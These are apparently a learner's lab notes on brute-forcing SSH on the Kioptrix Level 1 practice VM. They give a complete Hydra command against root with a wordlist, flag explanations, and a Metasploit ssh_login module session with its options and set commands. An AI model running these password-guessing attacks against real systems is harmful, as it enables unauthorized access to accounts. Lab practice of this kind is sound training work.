

**Exploit kioptrix level 1 (SSH)**

BRUTE FORE SSH 
 
SSH - try brute for or use defaults 
1. Check for defaults 
2. checking password str 
3. do Blueteam pick it up 
 
HYDRA 
 
(NOTE) usr/share wordlist.. lost of wordlists 
 
syntax &gt;&gt;&gt; hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.247.129 -t 4 -V 
hydra - calls program 
-l - user to use/attack 
root - attacking root 
-P -wordlist 
ssh&lt;ip&gt; - ip to connect to  
-t number of threads for speed 
-V verbosity, see what is getting through 
 
 
 
 
 
 
METASPLOIT 
 
 
search ssh or ssh login 
 
 
 
auxiliary scanner login &gt; login check scanner 
auxiliary/scanner/ssh/ssh_login 
 
syntax &gt; use auxiliary/scanner/ssh/ssh_login 
 
Check options. lots of options 
 
msf6 &gt; use auxiliary/scanner/ssh/ssh_login 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options 
 
Module options (auxiliary/scanner/ssh/ssh_login): 
 
 Name       Current Setting Required Description 
 ----       --------------- -------- ----------- 
 BLANK_PASSWORDS  false      no    Try blank passwords for all users 
 BRUTEFORCE_SPEED 5        yes    How fast to bruteforce, from 0 to 5 
 DB_ALL_CREDS   false      no    Try each user/password couple stored in the current database 
 DB_ALL_PASS    false      no    Add all passwords in the current database to the list 
 DB_ALL_USERS   false      no    Add all users in the current database to the list 
 DB_SKIP_EXISTING none       no    Skip existing credentials stored in the current database (Accepted: none, user, u 
                        ser&amp;realm) 
 PASSWORD              no    A specific password to authenticate with 
 PASS_FILE             no    File containing passwords, one per line 
 RHOSTS               yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using 
                        -Metasploit 
 RPORT       22        yes    The target port 
 STOP_ON_SUCCESS  false      yes    Stop guessing when a credential works for a host 
 THREADS      1        yes    The number of concurrent threads (max one per host) 
 USERNAME              no    A specific username to authenticate as 
 USERPASS_FILE           no    File containing users and passwords separated by space, one pair per line 
 USER_AS_PASS   false      no    Try the username as the password for all users 
 USER_FILE             no    File containing usernames, one per line 
 VERBOSE      false      yes    Whether to print output for all attempts 
 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt 
pass_file =&gt; /usr/share/wordlists/metasploit/unix_passwords.txt 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set rhosts 192.168.247.129 
rhosts =&gt; 192.168.247.129 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option 
[-] Unknown command: option 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option 
[-] Unknown command: option 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options 
 
Module options (auxiliary/scanner/ssh/ssh_login): 
 
 Name       Current Setting           Required Description 
 ----       ---------------           -------- ----------- 
 BLANK_PASSWORDS  false                no    Try blank passwords for all users 
 BRUTEFORCE_SPEED 5                  yes    How fast to bruteforce, from 0 to 5 
 DB_ALL_CREDS   false                no    Try each user/password couple stored in the current database 
 DB_ALL_PASS    false                no    Add all passwords in the current database to the list 
 DB_ALL_USERS   false                no    Add all users in the current database to the list 
 DB_SKIP_EXISTING none                no    Skip existing credentials stored in the current database (Acce 
                                 pted: none, user, user&amp;realm) 
 PASSWORD                       no    A specific password to authenticate with 
 PASS_FILE     /usr/share/wordlists/metasploit/un no    File containing passwords, one per line 
          ix_passwords.txt 
 RHOSTS      192.168.247.129           yes    The target host(s), see https://github.com/rapid7/metasploit-f 
                                 ramework/wiki/Using-Metasploit 
 RPORT       22                 yes    The target port 
 STOP_ON_SUCCESS  false                yes    Stop guessing when a credential works for a host 
 THREADS      1                  yes    The number of concurrent threads (max one per host) 
 USERNAME                       no    A specific username to authenticate as 
 USERPASS_FILE                     no    File containing users and passwords separated by space, one pa 
                                 ir per line 
 USER_AS_PASS   false                no    Try the username as the password for all users 
 USER_FILE                       no    File containing usernames, one per line 
 VERBOSE      false                yes    Whether to print output for all attempts 
 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set threads 10 
threads =&gt; 10 
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set verbose true 
verbose =&gt; true 
 
DONT FORGET SET USERNAME 
 
always double check options 
 
 
 
From both scans, unlikely to have weak password that can be comprimised in a reasonble time on this machine.  
 
